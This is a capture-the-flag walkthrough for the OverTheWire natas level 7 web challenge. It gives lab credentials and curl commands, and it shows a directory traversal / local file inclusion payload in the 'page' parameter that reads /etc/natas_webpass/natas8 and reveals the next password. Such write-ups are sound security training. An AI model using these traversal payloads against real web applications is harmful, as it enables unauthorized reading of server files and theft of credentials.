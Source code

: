 # natas level7
natas is CTF with web application.

## using credential is below.
- User:natas7
- Pass:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## using tools.
- shell(curl, base64, etc)
- lynx
check web site by lynx.
`lynx http://natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9@natas7.natas.labs.overthewire.org`

followings is message of this page.
~~~
Home About
~~~

If we access to link of Home, return same page and message is "this is the front page".
If we access to link of About, almost same as Home but message is "about page".
Any other informations are not exist in this page.

I check web page source of these(top, home, front), and I found hint.
`curl http://natas7.natas.labs.overthewire.org -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

hint: "password for webuser natas8 is in /etc/natas_webpass/natas8"
And if we access to home or about page, we use page parameter(ex page=about).
I guess, this page has directory traversal vulnerability at this parameter(page).

I test this, and it has vulnerability of local file inclusion.
~~~
curl 'http://natas7.natas.labs.overthewire.org/index.php?page=../' -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
include(): Failed opening '../' for inclusion (include_path='.:/usr/share/php:/usr/share/pear')
~~~

I access to natas webpass file, and got password.

`curl 'http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8' -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
 
